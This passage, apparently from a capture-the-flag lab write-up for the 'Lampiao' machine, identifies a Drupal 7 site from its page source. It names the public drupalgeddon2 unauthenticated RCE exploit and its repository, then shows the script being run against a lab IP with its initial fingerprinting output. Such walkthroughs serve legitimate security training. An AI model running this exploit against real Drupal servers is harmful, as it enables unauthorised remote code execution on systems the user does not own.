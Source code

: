 ![1898.png](../assets/lampiao_assets/1898.png)

Taking a look at the page source we can confirm the site is running Drupal 7, which is vulnerable to an unauthenticated RCE. For this we can use the exploit drupalgeddon2:

![source.png](../assets/lampiao_assets/source.png)

We can find the script at https://github.com/dreadlocked/Drupalgeddon2

### Exploitation

Lets give it a shot:

```text
┌──(ryan㉿kali)-[~/PG/Lampiao]
└─$ ruby drupalgeddon2.rb http://192.168.229.48:1898/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://192.168.229.48:1898/
--------------------------------------------------------------------------------
[+] Found  : http://192.168.229.48:1898/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
```